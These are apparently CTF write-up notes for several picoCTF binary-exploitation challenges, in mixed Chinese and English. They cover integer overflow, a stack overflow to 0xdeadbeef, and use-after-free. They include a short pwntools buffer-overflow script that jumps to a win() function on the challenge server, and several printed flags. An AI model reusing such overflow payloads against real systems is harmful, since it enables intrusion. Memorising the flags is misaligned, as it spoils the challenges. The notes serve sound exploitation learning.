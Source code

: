 13 digits decimal -> 42 digits binary
`21474836480` -> 0

+ `2147483647 ＋ 1~2147483647` 都會使其溢位
```txt=
2222222222220 ;-> 1724130188
2222222222230 ;-> 1724130188
```
`Flag`: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_482d8fc4}

`REF`: 
+ https://zh.wikipedia.org/zh-tw/%E6%95%B0%E6%8D%AE%E7%B1%BB%E5%9E%8B_(C%E8%AF%AD%E8%A8%80) 
+ https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/two-sum/two-sum.md


clutter-overflow
--

`%llx` : **64 bits hex-sign-integer**
+ overflow to cover `code` to equal to `0xdeadbeef`

`Flag`: picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}


Unsubscriptions Are Free
--

`use-after-free`: UAF


`REF`: https://ctftime.org/writeup/34455

RPS
--

`strstr() function`

sol: input `rock paper scissors` for 5 times

`Flag`: picoCTF{50M3_3X7R3M3_1UCK_B69E01B8}


buffer overflow 1
--
`buffer overflow`

+ buf size = 32 -> 0x20
+ **disassembler to find address of** `win()`

```python=
from pwn import remote,p32

r= remote('saturn.picoctf.net',53563)

r.recvline()
r.sendline(b'a'*44+p32(0x80491f6)) # jump to win function

print(r.recvall().decode())

r.close()
```
